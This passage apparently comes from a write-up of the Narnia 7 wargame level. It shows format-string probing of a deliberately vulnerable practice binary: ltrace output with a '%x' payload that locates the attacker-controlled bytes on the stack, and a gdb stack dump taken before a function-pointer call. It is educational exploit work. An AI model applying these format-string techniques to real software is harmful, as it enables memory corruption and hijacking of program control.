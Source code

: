 So disassmble the `vuln` function and set a break point just 
before the call of the function pointer. In the process of this challenge
I learned of a nice way to determine the number of `%x` you need. Using
`ltrace` it's possible to increment the number of `%x`'s until you
see your string in the output again. I'll paste only the correcy output here

{% highlight console linenos %}
narnia7@melinda:/narnia$ ltrace ./narnia7 `python -c "print 'aaaabbbb' + '%x'*7"`
__libc_start_main(0x804868f, 2, 0xffffd774, 0x8048740 <unfinished ...>
memset(0xffffd630, '\0', 128)                                = 0xffffd630
printf("goodfunction() = %p\n", 0x80486e0goodfunction() = 0x80486e0
)                   = 27
printf("hackedfunction() = %p\n\n", 0x8048706hackedfunction() = 0x8048706

)               = 30
printf("before : ptrf() = %p (%p)\n", 0x80486e0, 0xffffd62cbefore : ptrf() = 0x80486e0 (0xffffd62c)
) = 41
puts("I guess you want to come to the "...I guess you want to come to the hackedfunction...
)                  = 50
sleep(2)                                                     = 0
snprintf("aaaabbbb8048238ffffd688f7ffda940"..., 128, "aaaabbbb%x%x%x%x%x%x%x", 0x8048238, 0xffffd688, 0xf7ffda94, 0, 0x80486e0, 0x61616161, 0x62626262) = 55
puts("Welcome to the goodfunction, but"...Welcome to the goodfunction, but i said the Hackedfunction..
)                  = 61
fflush(0xf7fcaac0)                                           = 0
exit(0 <no return ...>
+++ exited (status 0) +++
{% endhighlight %}

You can see the *aaaa* and *bbbb* at line 14. So we have 7 `%x` to get the second value.

Let's take a look at the stack with that input

{% highlight console %}
(gdb) r $(python -c "print 'aaaabbbb' + '%x'*7")
Starting program: /games/narnia/narnia7 $(python -c "print 'aaaabbbb' + '%x'*7")
goodfunction() = 0x80486e0
hackedfunction() = 0x8048706

before : ptrf() = 0x80486e0 (0xffffd60c)
I guess you want to come to the hackedfunction...

Breakpoint 1, 0x08048685 in vuln ()
(gdb) x/40wx $esp
0xffffd5f0:	0xffffd610	0x00000080	0xffffd8a2	0x08048238
0xffffd600:	0xffffd668	0xf7ffda94	0x00000000	0x080486e0
0xffffd610:	0x61616161	0x62626262	0x38343038	0x66383332
0xffffd620:	0x64666666	0x66383636	0x64666637	0x30343961
0xffffd630:	0x38343038	0x36306536	0x36313631	0x36313631
0xffffd640:	0x36323632	0x00323632	0x00000000	0x00000000
0xffffd650:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd660:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd670:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd680:	0x00000000	0x00000000	0x00000000	0x00000000
{% endhighlight %}
